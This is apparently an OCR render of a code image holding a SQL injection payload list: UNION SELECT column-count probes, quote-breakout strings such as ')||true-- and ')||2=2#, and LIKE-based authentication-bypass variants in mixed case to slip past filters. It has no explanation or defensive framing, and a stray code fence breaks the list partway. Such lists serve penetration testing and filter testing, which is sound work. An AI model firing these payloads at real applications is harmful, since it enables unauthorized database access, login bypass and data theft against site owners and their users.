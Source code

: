 ```
") UniON SElecT 1,2,3,4-- 2
") UniON SElecT 1,2,3,4,5-- 2
") UniON SElecT 1,2#
") UniON SElecT 1,2,3#
") UniON SElecT 1,2,3,4#
") UniON SElecT 1,2,3,4,5#
")UniON(SElecT(1),2)-- 2
")UniON(SElecT(1),2,3)-- 2
")UniON(SElecT(1),2,3,4)-- 2
")UniON(SElecT(1),2,3,4,5)-- 2
")UniON(SElecT(1),2)#
")UniON(SElecT(1),2,3)#
```
")UniON(SElecT(1),2,3,4)#
")UniON(SElecT(1),2,3,4,5)#
')||('2
')||2-- 2
')||'2'||('
')||2#
')||2/*
')||2||('
")||("2
")||2-- 2
")||"2"||("
")||2#
")||2/*
")||2||("
')||'2'=('2
')||'2'='2'||('
')||2=2-- 2
')||2=2#
')||2=2/*
')||2=2||('
")||"2"=("2
")||"2"="2"||("
")||2=2-- 2
")||2=2#
")||2=2/*
")||2=2||("
')||2=(2)LimIT(1)-- 2
')||2=(2)LimIT(1)#
')||2=(2)LimIT(1)/*
")||2=(2)LimIT(1)-- 2
")||2=(2)LimIT(1)#
")||2=(2)LimIT(1)/*
')||true-- 2
')||true#
')||true/*
')||true||('
")||true-- 2
")||true#
")||true/*
")||true||("
')||'2'LiKE('2
')||'2'LiKE'2'-- 2
')||'2'LiKE'2'#
')||'2'LiKE'2'/*
')||'2'LiKE'2'||('
')||(2)LiKE(2)-- 2
')||(2)LiKE(2)#
')||(2)LiKE(2)/*
')||(2)LiKE(2)||('
")||"2"LiKE("2